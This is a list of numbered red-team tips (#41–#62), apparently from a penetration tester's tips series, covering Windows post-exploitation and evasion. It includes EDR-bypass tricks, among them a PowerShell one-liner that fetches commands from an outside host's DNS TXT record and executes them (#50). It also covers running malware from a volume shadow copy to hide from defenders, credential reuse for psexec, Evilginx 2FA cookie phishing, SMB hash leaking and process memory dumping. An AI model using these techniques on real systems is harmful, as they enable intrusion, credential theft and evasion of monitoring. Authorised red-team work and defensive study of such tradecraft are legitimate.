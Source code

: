 Red tip #41: @Oddvarmoe suggests using Alternate Data Streams if you need to put a file on disk. For example https://github.com/samratashok/nishang/blob/master/Backdoors/Invoke-ADSBackdoor.ps1

Red tip #42: Got OS level access to a middle tier? Task list, netstat and wmic process list full | findstr /I commandline for more ideas!

Red tip #43: So you know where the server application files are. Download the binaries and check out configuration files for conn. strings

Red tip #44: Run PEiD and other packer / technology checkers to find out the language and packer used on downloaded server binaries.

Red tip #45: Run strings on the application binary for potentially other cleartext sensitive strings! (Unicode mode too)

Red tip #46: On a VDI? Check out C:\ and other disks for potentially sensitive files other users may have saved there.

Red tip #47: Incase EDR are looking for "net users /domain" try using "net use /dom"

Red tip #48: Is EDR potentially looking for "powershell -encodedcommand"? Try "powershell -ec"

Red tip #49: Attacking a heavy Macintosh or Linux estate? Send a Office Maldoc with OS checking logic to obtain footholds on either system

Red tip #50: Carbon Black checks for IEX and web req commands. Use powershell "powershell . (nslookup -q=txt calc.vincentyiu.co.uk )[-1]"

Red tip #51: Cant open C drive? Try \127.0.0.1\c$

Red tip #52: SC doesnt take credentials. Cant use runas? Try net use \targetip\ipc$ password /u:domain\username then sc to psexec

Red tip #53: When stick phishing for 2FA, consider using @mrgretzky Evilginx project which logs cookies. https://breakdev.org/evilginx-1-1-release/

Red tip #54: Hide from blue. Volume shadow copy then execute \?\GLOBALROOT\Device\HarddiskVolumeShadowColy1\malware.exe/dll then delete VSC

Red tip #55: SMB hash leaking using a UNC path for image in page for drive by leak can give you credentials for less mature environments.

Red tip #56: Target victims using email authentication such as Microsoft Account on Windows 10? Hash leak exposes full email address!

Red tip #57: Working in teams yields better results; and best of all Makes Offensive operations more fun and keeps the adrenaline pumping

Red tip #58: Discuss business targets and objectives with your clients. This process should set non technical goals such as "ATM spit money"

Red tip #59: Checking whether a server or host is good for egress? Likely to go down? "systeminfo | findstr /i boot"

Red tip #60: Type "query user" to see who else is connected to the machine.

Red tip #61: Get a quick patch list using wmic qfe list brief. Cross ref KB to bulletins.

Red tip #62: Found a process of interest? Dont forget to obtain a MiniDump! Use Out-MiniDump https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1
